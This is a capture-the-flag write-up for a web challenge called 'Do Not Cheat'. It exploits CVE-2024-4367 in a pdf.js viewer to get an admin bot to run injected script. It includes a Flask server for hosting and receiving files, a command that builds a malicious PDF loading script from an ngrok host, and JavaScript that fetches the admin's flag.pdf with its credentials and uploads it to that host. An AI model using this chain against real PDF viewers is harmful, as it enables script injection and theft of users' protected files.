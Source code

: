 
## Do Not Cheat


> I've prepared a set of useful cheatsheets. This might be helpful for any hacker.
> 🔗 https://do-not-cheat-bb7d7982d597.1753ctf.com


In this chall given a website with some cheatsheets, looking the source code from browser it is evident there exist a `flag.pdf` file containing real flag but it's access is not given to normal user, only admin can view the `flag.pdf` file. 

Also the `/report` route exist where we can pass any pdf as query parameter to get it viewed by the admin...

Like this - `https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=public/BLUE.pdf`

Hmm, so admin is a bot! (common in CTF challs)

Now if we look console while testing the web app, we can see logs that tells us the pdf-viewer used by the web app is `pdf-dist version 4.1.392` which is severely vulnerable to arbitary code execution (CVE-2024-4367). 

So if we can pass a vulnerable pdf to `/report` route we could solve this challenge. 

Let's get into it -

From the [POC of CVE-2024-4367](https://github.com/LOURC0D3/CVE-2024-4367-PoC) we can embed our malicious script to the a pdf.

First we'll create a flask http server for our utility with this code -

```python

from flask import Flask, send_file, request, jsonify
from flask_cors import CORS, cross_origin
import os

app = Flask(__name__)
cors = CORS(app)

UPLOAD_FOLDER = 'uploads'
if not os.path.exists(UPLOAD_FOLDER):
    os.makedirs(UPLOAD_FOLDER)

@app.route('/')
@cross_origin()
def poc_pdf():
    return send_file("poc.pdf")

@app.route('/payload')
@cross_origin()
def payload():
    return send_file("payload.js")

@app.route('/upload', methods=['POST'])
@cross_origin()
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400
    
    file = request.files['file']
    
    if file.filename == '':
        return jsonify({'error': 'No file selected'}), 400
    
    if file:
        filename = os.path.join(UPLOAD_FOLDER, file.filename)
        file.save(filename)
        return jsonify({
            'ok': True,
            'message': 'File uploaded successfully',
            'filename': file.filename
        }), 200

if __name__ == '__main__':
    app.run(debug=True)
```

Here we have three endpoints
- `/` - gives the malicious pdf, we'll create it later
- `/payload` - gives payload.js file which is a malicious script
- `/upload` - basic file upload utility

Firstly, start the web server.

To host this flask server we'll use `ngrok`, which uses port tunelling to make the local server accessible from anywhere on internet.

My server is running on the domain `45a8-122-162-147-205.ngrok-free.app`, yours will be different so run commands accordingly.

Let's create the malicious pdf by following command -

```bash
$ python3 CVE-2024-4367.py "var s=document.createElement('script');s.src='https://45a8-122-162-147-205.ngrok-free.app/payload';document.body.append(s)"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```

This will create our malicious `poc.pdf`

To generate the malicious pdf we'll be taking help from the [POC of CVE-2024-4367](https://github.com/LOURC0D3/CVE-2024-4367-PoC) as mentioned above

The code injected in pdf quiet simple, it will load the javascript file `payload.js` availabe at `/payload` endpoint of our utility web server and will execute it

Now for `payload.js` we have -

```javascript
(async () => {
    const res = await fetch("/app/admin/flag.pdf", { credentials: 'include' });
    const blob = await res.blob();

    const formData = new FormData();

    formData.append('file', new File([blob], 'flag.pdf', { type: 'application/pdf' }));

    await fetch('https://45a8-122-162-147-205.ngrok-free.app/upload', {
        method: 'POST',
        body: formData
    });
})();
```

Simple function which just fetch the flag.pdf data and upload the pdf to `/upload` endpoint of our utility web server

Now if i'll send our utility web server url to admin using `/report` endpoint on website we'll get our flag uploaded inside the `/uploads` folder, ~ crazyyy ~

just go to `https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=https://45a8-122-162-147-205.ngrok-free.app` and you will get the flag paved on your machine


